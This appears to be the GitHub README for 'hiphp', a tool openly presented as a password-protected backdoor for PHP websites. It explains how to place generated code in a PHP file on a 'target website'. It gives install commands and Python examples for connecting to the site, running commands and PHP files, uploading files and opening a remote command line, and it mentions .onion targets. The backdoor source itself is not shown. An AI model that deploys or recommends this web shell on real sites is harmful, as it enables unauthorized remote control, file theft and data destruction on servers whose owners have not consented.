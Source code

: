 <p align="center">
<img align="center" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/install/hiphp.png">
</p>


<h1>hiphp for control php websites.</h1>

<p>hiphp is BackDoor to control php-based sites hiphp can be controlled by sending commands, files, and tokens to the site using the http/https protocol. After copying the code and placing it in any php file on the target website, you will have permissions to enter it, read all files, delete and even upload new files to it. Also, this back door is password protected.</p>

[![Python package](https://github.com/yasserbdj96/hiphp/actions/workflows/python-app.yml/badge.svg?branch=main)](https://github.com/yasserbdj96/hiphp/actions/workflows/python-app.yml) [![Docker image](https://github.com/yasserbdj96/hiphp/actions/workflows/docker-image.yml/badge.svg)](https://github.com/yasserbdj96/hiphp/actions/workflows/docker-image.yml) [![CodeFactor](https://www.codefactor.io/repository/github/yasserbdj96/hiphp/badge)](https://www.codefactor.io/repository/github/yasserbdj96/hiphp)

<h2>Languages:</h2>
* python3<br>
* php

<h2>Requirements</h2>
[✓] ashar<br>
[✓] requests<br>
[✓] hexor<br>
[✓] asciitext

<h2>Supported Distributions:</h2>

| Distribution | Version Check     | Python Test Version | Supported | Status      | Everything works |
| :----------: | :---------------: | :-----------------: | :-------: | :---------: | :--------------: |
| Ubuntu       | 20.04.3           | 3.6, 3.7, 3.8, 3.9  | Yes       | Working     | Yes              |
| Windwos      | 11.6.4            | 3.6, 3.7, 3.8, 3.9  | Yes       | Not Working | No              |
| MacOS        | 10.0.20348        | 3.6, 3.7, 3.8, 3.9  | Yes       | Working     | Yes              |

<h2>Docker pull,build & run:</h2>

```bash
# pull:
docker pull yasserbdj96/hiphp:latest

# build:
docker build -t docker.io/yasserbdj96/hiphp:latest .

# run:
docker run -e KEY="<KEY>" -e URL="<URL>" -i -t docker.io/yasserbdj96/hiphp:latest
```

<h2>Github Packages pull,build & run:</h2>

```bash
# pull:
docker pull ghcr.io/yasserbdj96/hiphp:latest

# build:
docker build -t ghcr.io/yasserbdj96/hiphp:latest .

# run:
docker run -e KEY="<KEY>" -e URL="<URL>" -i -t ghcr.io/yasserbdj96/hiphp:latest
```

<h2>Python Package Installation:</h2>

```
pip install hiphp
```

<h2>Ubuntu Installation:</h2>

```
git clone https://github.com/yasserbdj96/hiphp.git
cd hiphp/install
bash install.sh -i
hiphp
```

<h2>Usage:</h2>

```python
from hiphp import *

# connect:
p1=hiphp(key="<KEY>",url="<URL>")
```

<h2>Examples:</h2>

```python
#START{
from hiphp import *

# connect:
p1=hiphp(key="123",url="http://127.0.0.1/index.php")#Default: retu=False.
#p1=hiphp(key="123",url="http://kfdjlkgjflkgjdfkjgkfdjgkjdfkgjk.onion/index.php")
#p1=hiphp(key="123",url="https://google.com/index.php")

# Get the hole Code:
p1.get_hole()# Copy this code into the file whose path you entered earlier. ex: https://localhost/index.php

# Example:1
# Command:
p1.run("echo 'this is a test';")

# Example:2
# Run code from file:
p1.run_file("./examples.php")# Run code from file.
p1.run_file("./examples.php","var1==true","var2==hiii")# Run code from file With the entry of variables.

# Example:3
# Upload a file:
p1.upload("./examples.php")# Upload a file to the current directory.
p1.upload("./examples.php","./upload_path/")# Upload a file to a specific directory.

# Example:4
# Command line interface:
p1.cli()
#}END.
```

<h2>Screenshot:</h2>

<div align="center">
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png">
        <img height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png">
    </a>
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot1.png">
        <img height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot1.png">
    </a>
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot2.png">
        <img height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot2.png">
    </a>
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/scripts/hiphp_ftp/screenshot/screenshot.png">
        <img height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/scripts/hiphp_ftp/screenshot/screenshot.png">
    </a>
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/scripts/hiphp_desktop/screenshot/screenshot.png">
        <img height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/scripts/hiphp_desktop/screenshot/screenshot.png">
    </a>
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/scripts/hiphp_desktop/screenshot/screenshot1.png">
        <img height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/scripts/hiphp_desktop/screenshot/screenshot1.png">
    </a>
</div>

<h2>Changelog History:</h2>

```
## 0.2.16 [02-07-2022]
 - Bug fixes & performance improvements.

## 0.2.15 [22-06-2022]
 - New build.
 - More stability.
 - Command interface update.
 - More commands.
 - Giving access to .onion sites.
 - help menu update.
 - Bug fixes & performance improvements.

## 0.1.14
 - help menu update.
 - Bug fixes & performance improvements.

## 0.1.13
 - Safety upgrade.
 - Bug fixes & performance improvements.

## 0.1.12
 - Safety upgrade.
 - Bug fixes & performance improvements.

## 0.1.11
 - Command interface update.
 - Bug fixes & performance improvements.

## 0.1.10
 - Fix Bugs.

## 0.1.9
 - fix bugs.

## 0.1.7
 - fix bugs.

## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.

## 0.1.5
 - fix bugs.

## 0.1.4
 - fix bugs.
 - new build.

## 0.1.1
 - Import pakages by pipincluder.
 - Fix bugs.

## 0.1.0
 - New build.
 - Fix bugs.

## 0.0.4
 - Fix bugs.

## 0.0.2
 - Fix bugs.
 - Add help list.
 - Add Executing from files.

## 0.0.1
 - First public release.
```

<h1></h1> 

<div align="center">
    <a href="http://yasserbdj96.github.io/">Go to this link to get more information.</a>
    <br>
    <a href="https://github.com/yasserbdj96/hiphp" align="center">
        <img align="center" src="https://visitor-badge.laobi.icu/badge?page_id=yasserbdj96.hiphp">
    </a>
</div>

